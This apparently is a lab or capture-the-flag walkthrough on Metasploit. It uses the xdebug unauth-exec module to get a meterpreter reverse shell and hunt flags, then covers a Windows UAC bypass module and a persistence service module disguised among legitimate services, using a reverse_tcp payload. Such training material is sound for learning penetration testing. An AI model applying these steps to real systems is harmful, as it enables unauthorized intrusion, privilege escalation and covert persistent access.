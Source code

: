 The website seems to be using xdebug which is a PHP extension that provides debugging and profiling capabilities for PHP applications. Luckily, there is an exploit module for xdebug extension in MSF.

Upon searching for xdebug in MSF, we will find this exploit module:**"unix/http/xdebug_unauth_exec"** which can be used to get a reverse shell on the target machine.

After running it, we will indeed get a meterpreter session on the target machine.

The first flag can be found in: "/app" directory in "flag1" file.

The second flag can be found in: "Secret Files" in a file called: ".flag2"

The third flag is quite tricky to get. First, we need to download flag5.zip and unzip it on our local machine. We will get a file called list, and it has a clue saying: "MD5 hash /bin/bash".

We will got to the "/bin" directory in the target machine and calculate the MD5 hash value of the bash file: `md5sum bash`

To get flag6, we will need to know what is the variable PATH on our target machine: `echo $PATH`
the value is:"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" That means will need to search starting from the "/usr" directory: `find /usr -type f -name "*ckdo*" 2>/dev/null`

The file that we will get is: "/usr/bin/backdoor" and inside it, we will get flag6

---


## Windows Privilege Escalation: Bypassing UAC With MSF

There is a MSF module that can grant us a user with full privileges using UAC Bypass: **"windows/local/bypassuac_injection"**. However, we need to provide this module with a session and we also need to make sure that UAC bypass is even possible by chcking if our logged in user is in the Administrators group or not. To do that, on the target machine: `net localgroup Administrators` . Once we see our username, we know that UAC bypassing is possible.

If we are dealing with a x64 system, we will need to change the payload to match the target system.

---


##  Establishing Persistence On Windows

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off our access to the target machine.

We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

**To establish persistence, we need to have elevated privileges.**

One of the MSF persistence modules that we can use with Windows machines is:**"windows/local/persistence_service".** We should also set the Service name to something that can blind in with other legit Windows services. We also have to provide it with a meterpreter session.

After we run it, we will set a payload to target Windows to start a meterpreter session: `set payload windows/meterpreter/reverse_tcp`

Then, we run it again. We now have a meterpreter session on the target that we can access at anytime.
